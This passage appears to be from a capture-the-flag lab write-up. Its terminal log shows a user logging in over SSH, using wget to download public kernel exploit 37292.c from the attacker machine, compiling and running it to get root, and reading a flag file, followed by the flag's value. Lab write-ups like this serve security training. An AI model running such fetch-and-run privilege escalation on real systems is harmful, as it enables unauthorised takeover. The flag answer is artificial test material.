 ```
10.10.195.207 - - [16/Oct/2024 23:07:40] "GET /37292.c HTTP/1.1" 200 -


> victima

ssh karen@10.10.195.207          
karen@10.10.195.207's password: 
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic x86_64)
 
$ bash -i
 
karen@wade7363:/$ cd /tmp
karen@wade7363:/tmp$ 
karen@wade7363:/tmp$ wget http://10.6.13.236/37292.c
--2024-10-17 00:07:39--  http://10.6.13.236/37292.c
Connecting to 10.6.13.236:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: ‘37292.c’

100%[===================================================>] 4,968       --.-K/s   in 0s      

2024-10-17 00:07:40 (755 MB/s) - ‘37292.c’ saved [4968/4968]

karen@wade7363:/tmp$ gcc -static 37292.c -o exploit
                                   
                                      
karen@wade7363:/tmp$ chmod +x exploit 
karen@wade7363:/tmp$ ./exploit 

spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
# ls
37292.c  exploit
# cd /root
# ls

# cd /home      
# ls
matt
# cd matt
# cat flag1.txt
```

### What is the content of the flag1.txt file?
```
THM-28392872729920
```
